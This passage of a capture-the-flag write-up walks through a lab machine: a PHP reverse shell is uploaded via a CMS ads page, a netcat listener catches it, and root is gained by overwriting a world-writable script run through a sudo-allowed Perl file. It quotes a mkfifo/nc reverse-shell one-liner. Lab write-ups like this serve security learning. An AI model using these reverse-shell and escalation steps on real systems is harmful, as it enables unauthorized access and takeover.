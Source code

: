 I browsed the CMS admin page, and in the Dashboard, I saw an option `Website Status: Close`. I turned it on to see what happened, but there was nothing much.

There was an `Ads` section in the left column. I checked that, and I can upload code for ads. So, I uploaded a **php reverese shell** code in there and opened a netcat listener on my terminal

Went to the inc section, ran the file and I got the reverse shell.
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.236.241 42522
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 17:15:29 up 15 min,  0 users,  load average: 0.20, 0.44, 0.65
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Stabilised the shell and started looking for the flags.

Now is the time for privilege escalation.

The first thing to check is `sudo -l` to see if I can run any command with root access.
```
www-data@THM-Chal:/home/itguy$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```
I can run a `Perl` file with root access without a password. I checked the `backup.pl` file.
```
www-data@THM-Chal:/$ cat /home/itguy/backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
And the `copy.sh` file.
```
www-data@THM-Chal:/$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
The copy.sh files start a shell session (the /bin/sh part) and the other stuff. So I thought I would get the root shell if I ran the file with `sudo`.

But I didn't get the root shell directly. Also, I have read, write, and access to the copy.sh file.
```
www-data@THM-Chal:/$ ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```
So, I replaced the file's content with `/bin/bash`. This command runs the bash shell.
```
www-data@THM-Chal:/$ sudo /usr/bin/perl /home/itguy/backup.pl 
root@THM-Chal:/# 
```
I got the root shell. Next for the root flag.
